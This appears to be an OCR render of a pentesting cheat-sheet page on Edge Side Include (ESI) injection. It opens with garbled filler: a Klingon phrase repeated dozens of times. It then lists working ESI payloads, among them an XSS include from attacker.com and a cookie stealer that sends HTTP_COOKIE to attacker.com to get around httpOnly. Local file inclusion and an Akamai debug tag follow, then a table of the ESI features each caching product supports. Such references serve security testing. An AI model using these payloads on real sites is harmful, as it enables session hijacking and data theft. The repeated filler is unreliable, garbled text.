 **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh** **'e' vItlhutlh**
```javascript
// Basic detection
hell<!--esi-->o
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```
### ESI exploitation

[GoSecure created](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) a table to understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported:

* **Includes**: Supports the `<esi:includes>` directive
* **Vars**: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
* **Cookie**: Document cookies are accessible to the ESI engine
* **Upstream Headers Required**: Surrogate applications will not process ESI statements unless the upstream application provides the headers
* **Host Allowlist**: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

|         **Software**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3            |      Yes     |    Yes   |     Yes     |              Yes              |         No         |
|         Varnish Cache        |      Yes     |    No    |      No     |              Yes              |         Yes        |
|            Fastly            |      Yes     |    No    |      No     |               No              |         Yes        |
| Akamai ESI Test Server (ETS) |      Yes     |    Yes   |     Yes     |               No              |         No         |
|          NodeJS esi          |      Yes     |    Yes   |     Yes     |               No              |         No         |
|         NodeJS nodesi        |      Yes     |    No    |      No     |               No              |      Optional      |
